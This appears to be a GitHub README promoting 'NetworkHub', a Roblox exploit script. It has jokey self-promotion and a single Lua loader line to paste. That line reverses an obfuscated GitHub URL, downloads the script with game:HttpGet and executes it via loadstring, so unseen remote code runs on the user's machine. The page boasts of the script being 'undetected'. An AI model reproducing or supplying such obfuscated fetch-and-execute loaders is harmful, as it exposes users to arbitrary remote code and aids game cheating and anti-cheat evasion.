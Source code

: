 ![image](https://raw.githubusercontent.com/netizen293/NetworkHub/refs/heads/main/IMG_0133.jpeg)
About Us
> Since development roughly 8 minutes ago, our team (myself), thrive to create a script that lets users enjoy the exploiting enviornment with 99.3% undetected features (no promises BTW)

Why Us
> We are the best!! the best!! 🤑🤑

What is bro yapping about
> I dont know pls send help

Loading the hackerman op sckipt hax
```lua
return(0x0133==(z)or(loadstring(game:HttpGet(string.reverse"aul.yna/niaM/niam/sdaeh/sfer/buHkrowteN/392neziten/moc.tnetnocresubuhtig.war//:sptth"))(),"Made by netizen293")
```

